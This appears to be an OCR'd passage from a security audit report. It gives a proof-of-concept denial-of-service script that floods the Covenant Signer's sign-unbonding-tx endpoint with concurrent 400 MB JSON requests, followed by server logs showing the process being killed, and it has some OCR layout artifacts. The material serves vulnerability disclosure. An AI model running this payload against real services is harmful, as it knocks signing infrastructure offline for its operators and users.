  python3 -m venv localenv source localenv/bin/activate pip3 install grequests 

  Then, import the following attacking script in exploit-dos.py: import grequests 

  url = 'http://127.0.0.1:9791/v1/sign-unbonding-tx' # POC: target server 

  post_data = { \"staking_output_pk_script_hex\": \"11223344\"*100000000, # POC: 4 byte * 100_000_000 = 400 MB per request \"unbonding_tx_hex\": \"unbonding_tx_hex\", \"staker_unbonding_sig_hex\": \"staker_unbonding_sig_hex\", \"covenant_public_key\": \"covenant_public_key\" } 

  rs = [grequests.post(url, json = post_data) for i in range(10)] 

  grequests.map(rs) 

  Finally, start the script: 

  python3 exploit-dos.py 

- Results: Once the attack is started, the target server will handle multiple large requests.     The following result is printed on the Covenant Signer command line: 


  $ covenant-signer start {\"level\":\"info\",\"time\":\"2024-06-01T17:27:43+02:00\",\"message\":\"Starting server on 127.0.0.1:9791\"} 

{\"level\":\"debug\",\"path\":\"/v1/sign-unbonding-tx\",\"traceId\":\"f1d80fe1-7391-4c7c-9a02-1ab02c796f68\",\"time\" (^) ⌋ :\"2024-06-01T17:35:28+02:00\",\"message\":\"request received\"} ,→ ,→ {\"level\":\"info\",\"path\":\"/v1/sign-unbonding-tx\",\"traceId\":\"f1d80fe1-7391-4c7c-9a02-1ab02c796f68\",\"tracin (^) ⌋ gInfo\":{\"SpanDetails\":null},\"requestDuration\":2837,\"time\":\"2024-06-01T17:35:31+02:00\",\"message\":\"Re (^) ⌋ quest completed\"} ,→ ,→ ,→ {\"level\":\"debug\",\"path\":\"/v1/sign-unbonding-tx\",\"traceId\":\"8333e0d2-bd9c-4c4a-9fed-3db3016b85c6\",\"time\" (^) ⌋ :\"2024-06-01T17:36:11+02:00\",\"message\":\"request received\"} ,→ ,→ {\"level\":\"debug\",\"path\":\"/v1/sign-unbonding-tx\",\"traceId\":\"0041d47b-580f-454c-9269-3b68ba77324a\",\"time\" (^) ⌋ :\"2024-06-01T17:36:11+02:00\",\"message\":\"request received\"} ,→ ,→ {\"level\":\"debug\",\"path\":\"/v1/sign-unbonding-tx\",\"traceId\":\"9250f6ee-1fda-4035-9352-1a34eeb5db97\",\"time\" (^) ⌋ :\"2024-06-01T17:36:11+02:00\",\"message\":\"request received\"} ,→ ,→ {\"level\":\"debug\",\"path\":\"/v1/sign-unbonding-tx\",\"traceId\":\"bccc05c8-17aa-4cfb-b119-54ad375bbed3\",\"time\" (^) ⌋ :\"2024-06-01T17:36:11+02:00\",\"message\":\"request received\"} ,→ ,→ {\"level\":\"debug\",\"path\":\"/v1/sign-unbonding-tx\",\"traceId\":\"1e3b58b0-0b91-4f52-9d47-ba28bfbdb296\",\"time\" (^) ⌋ :\"2024-06-01T17:36:11+02:00\",\"message\":\"request received\"} ,→ ,→ {\"level\":\"debug\",\"path\":\"/v1/sign-unbonding-tx\",\"traceId\":\"28a49842-b7bc-4d66-bf59-a84dc337db71\",\"time\" (^) ⌋ :\"2024-06-01T17:36:11+02:00\",\"message\":\"request received\"} ,→ ,→ {\"level\":\"debug\",\"path\":\"/v1/sign-unbonding-tx\",\"traceId\":\"6c66119a-9659-4e18-b894-e7c9121cee25\",\"time\" (^) ⌋ :\"2024-06-01T17:36:11+02:00\",\"message\":\"request received\"} ,→ ,→ {\"level\":\"debug\",\"path\":\"/v1/sign-unbonding-tx\",\"traceId\":\"daf2eef4-c982-4585-ad96-0a2f2e659914\",\"time\" (^) ⌋ :\"2024-06-01T17:36:11+02:00\",\"message\":\"request received\"} ,→ ,→ {\"level\":\"debug\",\"path\":\"/v1/sign-unbonding-tx\",\"traceId\":\"3060cbe4-81dc-4f44-ac33-4d3b2e758dca\",\"time\" (^) ⌋ :\"2024-06-01T17:36:11+02:00\",\"message\":\"request received\"} ,→ ,→ {\"level\":\"debug\",\"path\":\"/v1/sign-unbonding-tx\",\"traceId\":\"1f440400-ff77-4535-864f-10a4ab0ea8bc\",\"time\" (^) ⌋ :\"2024-06-01T17:36:11+02:00\",\"message\":\"request received\"} ,→ ,→ [1] 348231 killed covenant-signer start The process has been killed by the operating system. 

**-** Tracking process memory: To better understand the crash, it is possible to follow memory con-     sumption of the target process. Install the following python dependencies in a local environment: 

  pip3 install psrecord matplotlib tk 
